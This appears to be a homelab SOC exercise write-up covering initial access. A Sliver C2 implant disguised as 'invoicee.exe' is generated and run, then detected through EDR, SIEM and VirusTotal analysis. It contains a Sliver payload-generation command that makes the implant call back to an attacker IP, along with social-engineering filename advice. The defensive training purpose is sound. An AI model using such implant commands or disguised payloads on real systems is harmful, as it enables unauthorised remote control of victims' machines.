# Phase 1: Initial Access & Execution Analysis

## Project Overview

**Scenario:** Initial Access via User Execution  
**Environment:** Homelab SOC Simulation  

**Tools Used**
- **Sliver** — Command & Control (Attacker)
- **Splunk** — SIEM
- **LimaCharlie** — Endpoint Detection & Response (EDR)

---

## 1. Executive Summary

This phase simulates an adversary gaining an initial foothold within the environment through **user-assisted execution**.

A malicious Windows payload named **`invoicee.exe`** was delivered to a victim workstation. The user manually executed the file, resulting in the establishment of a **Command & Control (C2)** channel back to attacker infrastructure.

### Objectives
- Detect execution of an **unsigned binary**
- Identify **C2 beaconing activity**
- Correlate endpoint and network telemetry
- Assess analyst decision-making

---

## 2. Attack Simulation (Red Team)

### Tooling
**C2 Framework:** Sliver

---

### Payload Generation

    generate --http 192.168.1.101:80 --save /opt/invoicee.exe --os windows

  

  <em>Figure 1.1: Sliver C2 payload generation command execution</em>

A malicious payload named **`invoicee.exe`** was generated and saved to `/opt/invoicee.exe`.

The filename was intentionally chosen to appear legitimate and familiar, increasing the likelihood of successful execution through **social engineering**.

---

### Delivery Method

In this lab scenario, the payload was hosted on an attacker-controlled web server. The victim unknowingly downloaded the file, believing it to be legitimate.

In a real-world scenario, similar payload delivery could occur via:
- Phishing emails with malicious attachments
- Drive-by downloads
- Compromised websites
- Malicious file-sharing links

  

  <em>Figure 1.2: Malicious payload delivered to the user Downloads directory</em>

---

### Execution

- The user manually double-clicked the file  
- No exploitation or lateral movement was used  

  

  <em>Figure 1.3: Manual execution of the payload by the user</em>

Following execution, a connection was established back to the attacker-controlled C2 server.

  

  <em>Figure 1.4: Successful C2 connection established</em>

---

## 3. Technical Analysis (Blue Team)

### Step 1: Process Execution Detection

#### Observation

LimaCharlie EDR generated alerts indicating suspicious activity on the host:

- **Hostname:** `fadhli-pc.redgunn.local`
- Execution of an unsigned binary
- Execution from the **Downloads** directory
- YARA detections in memory

  

  <em>Figure 1.5: LimaCharlie alert indicating suspicious process execution</em>

---

The process tree revealed:

- **Parent Process:** `explorer.exe`
- **Child Process:** `invoicee.exe`

  

  <em>Figure 1.6: Process tree confirming manual user execution</em>

This confirms the binary was executed directly by the user rather than through automated or lateral movement techniques.

---

#### Evidence Collected

- **File Path:**

      C:\Users\FADWIN10\Downloads\invoicee.exe

---

### Step 2: File Hash Investigation (Threat Intelligence)

#### Action

The SHA256 hash was extracted from LimaCharlie telemetry and submitted for reputation analysis.

#### Artifacts
- **File Path:**

      C:\Users\FADWIN10\Downloads\invoicee.exe

- **SHA256 Hash:**

      019b1291301dcf37569e80f7db6848c42b76d0b12196609965090d69e471d968

- **Signer:** Unsigned / Unknown Publisher

---

#### Initial VirusTotal Check

- **Result:** 0 detections  
- **Assessment:** No existing global reputation  

  

  <em>Figure 1.7: Initial VirusTotal scan showing zero detections</em>

**Analyst Assessment**  
A zero-detection binary executed from the Downloads directory is considered **highly suspicious** and commonly associated with:
- Custom-compiled malware
- Targeted attacks
- Newly generated or polymorphic payloads

---

#### Secondary VirusTotal Submission

The binary was manually uploaded for further analysis.

- **Result:** CRITICAL  
- **Detection Rate:** 19 / 71 vendors  

  

  <em>Figure 1.8: VirusTotal results confirming the file as malicious</em>

**Analyst Conclusion**  
The binary is confirmed malicious with high confidence.

**Decision:** Escalate to containment  
- **Indicator Type:** Atomic Indicator  
- **Indicator Value:** Known malicious hash  

---

### Step 3: Network Beaconing & C2 Correlation

#### Observation

Immediately after execution, the process initiated outbound network communication:

- **Destination IP:** `192.168.1.101`
- **Port:** `80 (HTTP)`
- **Pattern:** Repeated outbound connections (Beaconing)

  

  <em>Figure 1.9: Network telemetry indicating C2 beaconing activity</em>

---

Correlation sources:
- LimaCharlie EDR network telemetry
- Splunk SIEM logs
- Windows `netstat -ano`

  

  <em>Figure 1.10: Splunk logs correlating C2 activity</em>

  

  <em>Figure 1.11: Additional SIEM evidence supporting C2 communication</em>

  

  <em>Figure 1.12: Network activity verification using <code>netstat -ano</code></em>

  

  <em>Figure 1.13: Additional confirmation of active network connections</em>

  

  <em>Figure 1.14: Unsigned application execution evidence</em>

---

#### Analyst Assessment

The consistent outbound traffic pattern strongly matches known **C2 beacon behavior**, confirming successful attacker communication.

---

## 4. Detection Logic

### 4.1 LimaCharlie EDR Rule

The detection logic triggers on:
- Unsigned binaries
- Execution from user-writable directories
- Outbound network connections

  

  <em>Figure 1.15: LimaCharlie detection rule used to identify the threat</em>

*(Rule logic intentionally omitted for brevity / OPSEC.)*

---

## 5. Containment & Lessons Learned

### Containment Status: **Delayed**

**Reasoning**  
The host was intentionally left active to observe subsequent attack phases:
- Phase 2 — Privilege Escalation  
- Phase 3 — Persistence  

  

  <em>Figure 1.16: EDR option to isolate the compromised host</em>

---

### Real-World Response

In a production environment:
- Endpoint isolation would be immediate
- Network communication would be blocked
- Memory and disk artifacts would be preserved for forensic analysis
